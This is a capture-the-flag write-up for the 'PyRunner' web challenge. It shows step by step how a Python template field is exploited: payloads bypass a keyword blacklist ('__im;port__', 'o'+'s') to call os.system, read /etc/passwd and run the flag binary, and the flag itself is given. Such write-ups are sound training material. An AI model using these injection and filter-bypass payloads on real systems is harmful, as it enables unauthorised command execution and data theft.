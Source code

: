 # STACK The Flags CTF Writeup

STACK The Flags (Category 2: University, Polytechnics)

Link: https://ctf.hackthebox.com/event/747

Challenge: PyRunner

![](./images/Pasted%20image%2020221203160910.png)

---

## Target

The target is `157.245.52.169:32757`, which when navigated to, presents me with a simple web app that executes Python templates:

![](./images/Pasted%20image%2020221203010534.png)

Interacting with the dropdown displays another template, _"Webserver Template Duplicate"_, which (when selected) renders an **Arguments** section below the (disabled/not-editable) template source, allowing us to create new templates with a `title`, `host` and `port`:

![](./images/Screenshot%202022-12-03%20at%201.10.02%20AM.png)

Ok, so this challenge seems like it will deal with **command injection**, specifically—injecting a malicious command into one of those input fields.

### Files

The challenge also provided the source code for the webapp:

![](./images/Pasted%20image%2020221203060133.png)

Some files of interest:

![](./images/Pasted%20image%2020221203012946.png)
![](./images/Pasted%20image%2020221203013012.png)

So this is _definitely_ a command injection / arbitrary command execution challenge. But first, I have to figure out which of the 3 input fields is vulnerable to injection.

When a newly-created template is run, the server calls the `run_template` function, which extracts the arguments passed through the 3 input fields and passes them through a rudimentary word filter which replacing certain blacklisted plaintext strings with empty strings, `""`.

```py
contents.replace(f"<{argument}>", textfilter(data["arguments"][argument]))
```

```py
# textfilter function pretty much just replaces instances
# of the following strings with an empty string, ""
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
# system isn't blacklisted...
```

I find that `title` is the only passed argument that gets printed out in the server-hosted `template.py` file (line 11), so this will be my target input to inject commands into.

```py
print("Webserver: <title>")
#                  ^^^^^
```

So the general format of the injection will look something like `test>", {injection}) #` , which will turn the line above into:

```py
print("Webserver: <test>", {injection}) #")
```

### Command Injection

First I tried a simple injection just to check if I can get the server to perform some sort of calculation, to confirm that the injection was successful:

`test>", 1+2) #`

![](./images/Pasted%20image%2020221203015436.png)

_Niiice_, arbitrary command execution. Now to figure out how to spit out stuff that is actually useful.

---

`test>", system("ls")) #`

Since `system` isn't blocked, I can theoretically use it for command execution, however it isn't imported in `template.py`, so (predictably) this injection fails for this exact reason:

![](./images/Pasted%20image%2020221203014700.png)

Maybe I can import it inline? Going for a `system` call seems like the obvious approach, however, `;` are filtered out, as well as `import`, so there's some thinking to be done before I can use it.

---

After some time studying python command injection, I found that imports can be done via many alternative syntaxes, specifically:

- `__import__("os").system("ls")`
- `imp.os.system("ls")`

These might come in handy, however they still fail since either `import` or `os` is still present in the command string:

`test>", __import__('os').system('ls -la')) #>")`

![](./images/Pasted%20image%2020221203023737.png)

---

Time to switch gears, let's see what I can do with other commands which aren't blacklisted.

`test>", open("/etc/passwd").read()) #>")`

![](./images/Pasted%20image%2020221203030819.png)

_Very interesting_. Ok, so open seems promising, but I'm not sure if it's necessarily useful since I don't know
the filename or location of the flag... (Hindsight: turns out I _did_ know via included `Dockerfile`, but I ended up
going with a different approach.)

---

### What about the filenames?

Every created template is saved with a randomly generated filename:

![](./images/Pasted%20image%2020221203032208.png)

and the server sends back a response containing a computed output by a **juicy** `subprocess.run()` call that can run _anything_ in the `/scripts` directory…

![](./images/Pasted%20image%2020221203032329.png)

![](./images/Pasted%20image%2020221203032250.png)

Maybe I can write a malicious script to the location of an existing template?

But how do I get around the random `filename` generation? On second thought, this doesn't seem like the right approach (hindsight: it wasn't).

---

### Back to inline import approach

After messing around with some more ideas on how to bypass the blacklist, I discovered that I can get
the string `"import"` through the filter by sticking a `;` in it, however it didn't work for `"os"`—which I discovered
I can bypass by simply concatenating `“o” + “s”`:

`test>", __im;port__('o'+'s').system('ls -la')) #>")`

![](./images/Screenshot%202022-12-03%20at%204.17.54%20AM.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted (filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd .. && ls -la')) #>")`

![](./images/Pasted%20image%2020221203043442.png)

Finally, I found a file named `readflag`, however I can't seem to `cat` it out, nor can I `file readflag` its contents to even identify what it is. So using `stat`, I get some more information about this `cat`-immune file:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag')) #>")`

![](./images/Pasted%20image%2020221203045642.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted
(filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && od -c -tx1 readflag')) #>")`

![](./images/Pasted%20image%2020221203050617.png)

Finally, I found a `readflag` file, which (given the included `Dockerfile`) we know is an executable binary.

![](./images/Pasted%20image%2020221204195414.png)

### Final payload:

```
test>",__im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && ./readflag')) #
```

![](./images/Pasted%20image%2020221204210105.png)

### 🏴‍☠️ Flag:

```
STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}
```

